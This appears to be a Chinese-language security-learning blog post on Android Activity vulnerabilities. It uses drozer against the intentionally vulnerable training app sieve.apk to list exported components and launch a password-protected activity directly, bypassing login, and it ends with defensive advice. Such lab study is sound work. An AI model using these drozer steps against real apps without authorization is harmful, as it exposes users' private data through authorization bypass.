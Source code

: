 ```yaml
---
layout: post
title:  "Android: Activity漏洞挖掘学习-序言－Day1"
categories: [bugs-dig,android] 
---
```




# 序言

参考文章: 

https://bbs.kanxue.com/thread-269211.htm

[《Android APP漏洞之战系列》](https://github.com/WindXaa/Android-Vulnerability-Mining)

**Activity的漏洞种类**

![image-20210905185725812](https://raw.githubusercontent.com/redqx/redqx.github.io/master/_posts/img/905443_SEK8YFRNTN3AYFB.png)

**Activity安全场景和危害**

Activity的组件导出，一般会导致的问题：Android Browser Intent Scheme URLs的攻击手段
(1) 拒绝服务攻击：通过Intent给Activity传输畸形数据使得程序崩溃从而影响用户体验
(2) 越权攻击：Activity用户界面绕过会造成用户信息窃取、Activity界面被劫持产生欺诈等安全事件
(3) 组件导出导致钓鱼欺诈
(4) 隐式启动intent包含敏感数据



# 越权绕过

**原理介绍**

在Android系统中，Activity默认是不导出的，如果设置了exported = "true" 这样的关键值或者是添加了<intent-filter>这样的属性



```
<activity 
    android:label="@string/title_activity_pwlist" 
    android:name="com.mwr.example.sieve.PWList" 
    android:exported="true" //可能危险的地方
    android:finishOnTaskLaunch="true" 
    android:clearTaskOnLaunch="true" 
    android:excludeFromRecents="true"
/>
```



那么此时Activity是导出的，就会导致越权绕过或者是泄露敏感信息等安全风险。

例如：
(1)一些敏感的界面需要用户输入密码才能查看，如果没有对调用此Activity的组件进行权限验证，就会造成验证的越权问题，导致攻击者不需要密码就可以打开
(2)通过Intent给Activity传输畸形数据使得程序崩溃拒绝服务
(3)对Activity界面进行劫持



样本 sieve.apk ==> com.mwr.example.sieve

附件: 链接: https://pan.baidu.com/s/1uvZZxTMsCQ1sz74FnqFzTg?pwd=feav 提取码: feav

启动 `drozer`, 查询目标应用的攻击面

```
dz> run app.package.attacksurface com.mwr.example.sieve
Attempting to run shell module
Attack Surface:
  3 activities exported
  0 broadcast receivers exported
  2 content providers exported
  2 services exported
    is debuggable
```

再具体查询暴露activity的信息

```
dz> run app.activity.info -a  com.mwr.example.sieve
Attempting to run shell module
Package: com.mwr.example.sieve
  com.mwr.example.sieve.FileSelectActivity
    Permission: null
  com.mwr.example.sieve.MainLoginActivity
    Permission: null
  com.mwr.example.sieve.PWList
    Permission: null
```

说明我们可以通过强制跳转其他两个界面，来实现越权绕过

其中`com.mwr.example.sieve.MainLoginActivity`是启动的activity

```
dz> run app.activity.start --component com.mwr.example.sieve com.mwr.example.sieve.PWList
Attempting to run shell module
```

我们尝试启动sieve.apk的`com.mwr.example.sieve.PWList`

![image-20240912160744454](https://raw.githubusercontent.com/redqx/redqx.github.io/master/_posts/img/image-20240912160744454.png)



说明我们成功的实现了越权绕过,

ps: 我点击save, but显示 can not connect the service.



防护策略：

(1)私有Activity不应被其他应用启动相对是安全的，创建activity时：设置exported属性为false
(2)公开暴露的Activity组件，虽然可以被任意应用启动，创建Activity：设置export属性为true，但谨慎处理接收的Intent，有返回数据不包含敏感信息，不应发送敏感信息，收到返回数据谨慎处理

